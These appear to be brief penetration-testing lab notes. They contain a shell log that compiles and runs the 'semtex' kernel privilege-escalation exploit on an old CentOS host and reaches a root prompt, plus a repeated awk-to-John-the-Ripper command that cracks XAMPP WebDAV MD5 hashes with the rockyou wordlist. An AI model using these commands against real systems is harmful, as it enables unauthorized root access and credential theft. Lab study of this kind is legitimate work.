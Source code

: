 # notes

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex  
/usr/bin/gcc -O2 semtex.c -o semtex  
bash-4.1$ chmod +x semtex  
chmod +x semtex  
bash-4.1$ ./semtex  
./semtex  
2.6.37-3.x x86_64  
sd@fucksheep.org 2010  
-sh-4.1#  

## awk
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## john
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  
